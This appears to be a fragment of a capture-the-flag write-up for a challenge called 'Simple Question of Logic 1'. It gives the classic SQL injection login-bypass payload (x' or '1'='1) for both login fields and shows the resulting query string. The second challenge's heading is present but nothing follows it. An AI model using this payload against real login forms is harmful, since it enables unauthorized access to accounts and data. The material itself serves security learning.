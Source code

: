 ## Simple Question of Logic 1
- use this in both fields ([ctf101](https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/) . [sqlmap](https://d00mfist.gitbooks.io/ctf/content/sql-injections.html) . [hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass))
```sh
# classic login bypass

x' or '1'='1
x' or '1'='1
```
- as if to say
```erlang
$sql = "select * from users where username = 'x' OR '1'='1' and password = 'x' OR '1'='1'";
```
## Simple Question of Logic 2
